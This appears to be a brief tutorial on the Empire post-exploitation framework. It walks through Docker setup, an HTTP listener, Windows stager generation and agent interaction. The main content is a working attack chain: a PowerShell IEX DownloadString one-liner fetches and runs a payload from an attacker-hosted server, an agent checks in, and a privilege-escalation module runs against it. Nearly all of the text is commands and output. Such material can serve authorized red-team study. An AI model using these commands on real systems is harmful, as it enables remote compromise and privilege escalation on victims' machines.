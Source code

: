 #### 1. About

- URL: `https://github.com/BC-SECURITY/Empire#docker` (forked from `https://github.com/EmpireProject/Empire`)
- Empire3 PwerShell agent


#### 2. Setup and run
```
# docker pull bcsecurity/empire
# docker run --name empire -v /tmp:/tmp -p 5000:5000 --rm -it bcsecurity/empire ./empire
```


#### 3. Example

1. Listener
```
(Empire) > listeners
(Empire: listeners) > uselistener http
(Empire: listeners/http) > set Host http://192.168.135.4:5000
(Empire: listeners/http) > execute
(Empire: listeners/http) > back
```
Note: IP address of host interface where Docker container runs


2. Create payload
```
(Empire: listeners) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
```


3. Prepare payload
```
# grep -oE 'powershell .*' /tmp/launcher.bat > data && python -m SimpleHTTPServer 8888
```

4. Deliver payload
```
C:\> echo IEX(New-Object Net.WebClient).DownloadString('http://192.168.135.4:8888/data') | powershell -noprofile -
```

5. Interacting with the agent
```
(Empire: stager/windows/launcher_bat) >
[*] Sending POWERSHELL stager (stage 1) to 192.168.135.8
[*] New agent BUCRES1V checked in
[+] Initial agent BUCRES1V from 192.168.135.8 now active (Slack)
[*] Sending agent (stage 2) to BUCRES1V at 192.168.135.8
(Empire: stager/windows/launcher_bat) > interact BUCRES1V
(Empire: BUCRES1V) > usemodule privesc/powerup/allchecks
(Empire: powershell/privesc/powerup/allchecks) > run
```

